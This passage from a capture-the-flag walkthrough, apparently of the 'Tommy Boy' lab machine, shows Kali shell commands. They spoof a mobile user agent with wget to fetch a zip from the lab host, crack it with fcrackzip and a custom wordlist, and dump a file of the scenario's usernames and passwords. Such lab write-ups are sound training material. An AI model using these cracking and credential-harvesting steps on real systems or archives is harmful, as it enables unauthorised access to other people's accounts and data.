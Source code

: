 I created a symbols.txt file with some symbols and then ran the script.

```bash
root@kali:~$ ./pass-gen.sh
```

I clicked on "The Third flag" link and was redirected to the content of the flag.

![](/assets/images/tommyboy/screenshot-18.png)

Then with curl I downloaded the zip file.

```bash
root@kali:~$ wget --user-agent="Mozilla/5.0 (iPhone; CPU iPhone OS 13_3_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.5 Mobile/15E148 Snapchat/10.77.5.59 (like Safari/604.1)" http://192.168.179.149:8008/NickIzL33t/t0msp4ssw0rdz.zip
```

With the wordlist generated before, I cracked the zip file, as shown below:

```bash
root@kali:~$ fcrackzip -u -D -p tom_wordlist.txt t0msp4ssw0rdz.zip

PASSWORD FOUND!!!!: pw == bevH00tr$1995
```

Then I unzip the **t0msp4ssw0rdz.zip** file, and I can see some credentials, for the bigtommysenior user the password is incomplete, there are numbers after this but it is written in a draft of the company blog, for the bigtom user the password hint is a famous Queen song.

```bash
root@kali:~$ unzip t0msp4ssw0rdz.zip 
Archive:  t0msp4ssw0rdz.zip
[t0msp4ssw0rdz.zip] passwords.txt password: 
  inflating: passwords.txt           
root@kali:~$ cat passwords.txt 
Sandusky Banking Site
------------------------
Username: BigTommyC
Password: money

TheKnot.com (wedding site)
---------------------------
Username: TomC
Password: wedding

Callahan Auto Server
----------------------------
Username: bigtommysenior
Password: fatguyinalittlecoat

Note: after the "fatguyinalittlecoat" part there are some numbers, but I don't remember what they are.
However, I wrote myself a draft on the company blog with that information.

Callahan Company Blog
----------------------------
Username: bigtom(I think?)
Password: ??? 
Note: Whenever I ask Nick what the password is, he starts singing that famous Queen song.
```

